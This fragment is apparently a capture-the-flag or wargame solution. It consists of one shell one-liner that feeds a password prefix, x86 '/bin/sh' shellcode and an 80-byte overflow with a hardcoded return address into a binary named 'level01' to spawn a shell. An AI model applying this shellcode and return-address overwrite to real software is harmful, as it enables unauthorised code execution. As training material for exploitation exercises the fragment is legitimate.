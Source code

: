 `(python -c 'print "dat_wil\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"'; python -c 'print "N" * 80 + "\x47\xa0\x04\x08"'; cat) | ./level01`
